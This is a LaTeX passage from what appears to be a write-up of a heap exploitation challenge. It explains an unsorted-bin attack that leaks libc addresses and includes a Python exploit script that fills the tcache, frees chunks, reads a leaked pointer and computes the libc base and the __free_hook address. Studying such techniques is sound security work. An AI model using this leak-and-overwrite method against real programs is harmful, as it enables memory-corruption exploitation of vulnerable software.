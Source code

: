 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\subsubsection{Leak libc addresses}
This time we will perform an \emph{unsorted bins attack} to leak libc addresses, code \ref{lst:leak-libc-addresses}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Leaking libc addresses with python script.},captionpos=b,label={lst:leak-libc-addresses}]
    # Leaking libc with unsorted bin attack
    print("[2]-Leaking libc addresses...")
    for i in range(10):~\label{line:p-allocate-small-chunks}~
        new_article("abcdef%d" % i, 0x150, "%d" % i)
        time.sleep(0.05)
    
    for i in range(1, 10):~\label{line:p-deallocate-small-chunks}~
        delete_article(i)
        time.sleep(0.05)
    
    for i in range(10):~\label{line:p-reallocate-small-chunks}~
        new_article("qwert%d" % (i), 0x150, "")
        time.sleep(0.05)
    
    print_article(8)
    
    libc_leak = u64(p.recv(35)[28:]+b"\x00")
    # Setting the base address of libc with the leaked one
    libc.address = libc_leak - libc_offset
    print("\t\tLibc base address: ", hex(libc.address))
    print("\t\tFree_hook address:", hex(libc.symbols['__free_hook']))
\end{lstlisting}
\end{minipage}
Before reaching the unsorted bin, we need to fill the tcache. It has 7 entries, then we need at least two elements in the unsorted bin. To this end we allocate 10 articles\footnote{Actually one article is already there, so we allocate only 9 article, wheres an additional allocation request is performed due to process synchronization purposes.}, line \ref{line:p-allocate-small-chunks}. Then they are deallocated, line \ref{line:p-deallocate-small-chunks}.At this point, heap structures look like this: \clearpage
\noindent
\texttt{tcache[0x160 bytes]:\newline head -> P\_7 -> P\_6 -> P\_5 -> P\_4 -> P\_3 -> P\_2 -> P\_1 -> tail}\newline\newline
\noindent\texttt{unsorted\_bins: head -> P\_8 -> P\_9 -> tail}
\newline\newline
\end{document}
